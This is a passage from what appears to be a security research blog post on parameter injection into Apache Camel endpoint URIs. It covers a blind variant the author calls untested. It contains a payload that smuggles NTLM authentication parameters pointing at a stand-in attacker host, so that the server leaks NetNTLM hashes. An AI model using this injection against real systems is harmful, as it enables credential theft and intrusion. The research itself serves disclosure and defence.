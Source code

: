
### Now do it with your eyes closed! (Next Steps)

All the information packed in this article heavily depends on inspecting the server responses, which we assumed will contain the errors/stack traces generated by Camel. But what if those are taken away from us? How can we cause havoc, deprived of our... *vision*?

Well, I am not exactly sure to be honest, as what is mentioned in this paragraph is completely untested and only a theoretical potential attack vector. We can indeed still utilize the same attack vector, injecting endpoints with "instructions" for Camel to process, but without seeing the results. We need a volunteer on the remote system, one that will happily lend a hand to the blind man that we are. And the name of the little sucker, NTLM.

Camel supports NTLM authentication, and we can potentially inject the following parameters in the endpoint URI so that the are processed by Camel:

```
3816/../?authMethod=NTLM&authMethodPriority=NTLM&authDomain=ATTACKERDOMAIN&authHost=ATTACKERIP
```

In theory, this would cause Camel to attempt to authenticate to us, happily sending us over some NetNTLM hashes, a valuable indicator of light that allows us to finally recover part of our vision. But this is only a theory.



### TL;DR

Camel seems neat. Please watch out what you feed to it, not because it doesn't work correctly, but because it does.

That's all folks, thanks for reading!

[My Blog](https://naliferopoulos.github.io/ThinkingInBinary/)
